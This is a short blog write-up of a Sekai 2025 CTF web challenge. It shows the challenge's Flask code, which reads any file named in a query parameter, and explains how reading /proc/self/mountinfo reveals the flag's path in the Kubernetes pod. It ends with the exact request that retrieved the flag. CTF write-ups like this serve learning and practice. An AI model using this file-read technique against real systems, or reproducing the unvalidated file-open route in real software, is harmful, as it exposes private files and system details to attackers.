 ```yaml
---
layout: post
title:  "Sekai 2025 (CTF)"
date:   2025-08-18 20:05:43 -0400
author: robo.uzi
tags: [CTF, Web]
---
```

## My Flask App

Web: I created a Web application in Flask, what could be wrong?

Author: belugagemink

The site trolls you by asking if you want the flag and then moving the yes/no buttons around the screen. 

I look at the source code:
```shell
from flask import Flask, request, render_template  
  
app = Flask(__name__)  
  
@app.route('/')  
def hello_world():  
   return render_template('index.html')  
  
@app.route('/view')  
def view():  
   filename = request.args.get('filename')  
   if not filename:  
       return "Filename is required", 400  
   try:  
       with open(filename, 'r') as file:  
           content = file.read()  
       return content, 200  
   except FileNotFoundError:  
       return "File not found", 404  
   except Exception as e:  
       return f"Error: {str(e)}", 500  
  
if __name__ == '__main__':  
   app.run(host='0.0.0.0', port=5000, debug=True)
```
Ok good. Looks like simple arbitrary file read with `/view?filename=`.

I look at different files for a while until I check `/proc/self/mountinfo`. In the output I see:

```shell
/var/lib/kubelet/pods/cb8ef257-b118-4d33-85d2-02cb4ddeb687/volumes/kubernetes.io~configmap/cfgmap/..2025_08_16_02_26_54.3578576440/flag /flag-88192kJ22sKDr3kwsuzm5cDSZ3bGgzK3.txt ro,relatime - ext4 /dev/nvme0n1p1 rw,commit=30 4345 4337 259:1 /var/lib/kubelet/pods/cb8ef257-b118-4d33-85d2-02cb4ddeb687/etc-hosts /etc/hosts rw,relatime...
```

Dumping `/proc/self/mountinfo` lets you enumerate all mounts inside the kubernetes pod the app runs on. I get the flag at: `https://my-flask-app-vrx0felhbrr8.chals.sekai.team:1337/view?filename=/flag-88192kJ22sKDr3kwsuzm5cDSZ3bGgzK3.txt`

This ctf was fun but very challenging. Especially in the web category. I got close on a few other challenges but ultimately ran out of time. Its always a learning experience as long as you read the writeups! I hope you enjoyed or found it helpful.

___

